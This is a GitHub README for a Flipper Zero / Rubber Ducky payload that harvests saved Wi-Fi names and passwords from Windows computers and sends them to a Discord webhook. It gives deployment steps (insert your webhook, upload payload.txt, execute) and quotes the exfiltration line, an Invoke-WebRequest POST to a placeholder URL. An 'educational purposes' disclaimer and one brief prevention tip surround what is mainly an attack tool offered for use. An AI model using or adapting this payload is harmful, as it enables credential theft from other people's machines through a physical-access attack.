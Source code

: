 > [!IMPORTANT]
> The author and contributors claim no responsibility for unauthorized or unlawful utilization. This encompasses the use of the material, whether through forks or modifications undertaken by third parties. Users are strongly encouraged to exercise due diligence and assume full responsibility for their actions. The contents within this repository are provided solely for educational purposes.

<br>

![Some Weird Image](https://github.com/cxdzc/network-payload/assets/110936008/11c7bdde-e4b0-4cdf-9ccd-22e4b86f28ad)

# 📦 WAKER Network Payload v1.0.0
Obtain Wi-Fi names and passwords from a Microsoft Windows operating system computer. This can be accessed by leveraging the convenience of Wi-Fi profiles that are saved on Microsoft Windows operating systems using PowerShell. 

<br>

> [!NOTE]
> The payload was designed for a Flipper Zero using the classic Rubber Ducky Scripting Language 1.0 to exfiltrate data through the use of Discord webhooks. It can also be used as a regular payload with a webhook.

# 📄 Instructions
1. Replace `"https://YOUR_LINK_HERE.com"` in [payload.txt](https://github.com/cxdzc/network-payload/payload.txt) with your custom webhook.

`...Invoke-WebRequest -Uri https://YOUR_LINK_HERE.com -Method Post...`

2. Upload [payload.txt](https://github.com/cxdzc/network-payload/payload.txt) to your hotplug.
3. Execute the file.

# ⛔ Prevention
There are many ways to prevent this hotload attack from occurring. A very quick, simple, and temporary way is by deleting "Managed Known Networks" in Settings and to refrain from saving your Wi-Fi passwords.

# ❤ Contributors 
<a href="https://github.com/cxdzc/network-payload/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=cxdzc/network-payload" />
</a>

<sub>THANK YOU!</sub>

# 📜 License
The content and software in this GitHub repository are licensed under the Creative Commons [Attribution-NonCommercial-ShareAlike 4.0 International License](LICENSE). Users are free to share and adapt the material covered by this license, subject to the following conditions: provide appropriate attribution, refrain from employing it for commercial purposes, and distribute any derivative works under the same licensing terms.

> [!NOTE]
> If you would like to provide appropriate attribution, you may simply refer to this GitHub [repository](https://github.com/cxdzc/network-payload) or this GitHub account [@cxdzc](https://github.com/cxdzc).

<a rel="license" href="http://creativecommons.org/licenses/by-nc-sa/4.0/"><img alt="Creative Commons License" style="border-width:0" src="https://i.creativecommons.org/l/by-nc-sa/4.0/88x31.png" /></a>
